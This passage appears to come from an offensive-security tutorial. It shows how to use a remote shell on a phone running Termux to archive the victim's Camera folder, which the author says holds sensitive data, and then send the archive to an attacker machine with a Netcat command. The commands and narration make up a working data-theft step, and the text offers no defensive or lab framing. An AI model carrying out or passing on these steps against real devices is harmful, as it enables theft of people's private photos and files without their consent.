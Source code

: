 I've turned on **Netcat** From My <mark style="color:red;">**Termux**</mark> In My Phone I brought the shell using the methods we learned above , Now let's see the contents of this Camera folder

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption><p>It seems to hold a lot of sensitive data</p></figcaption></figure>



```bash
tar -cvzf cam.zip Camera
```

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

In Attacker Machine After Bring control Using <mark style="color:red;">**Termux**</mark> Open New Session Using Netcat

```
ncat -lnvp 8080 < cam.zip
```

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>
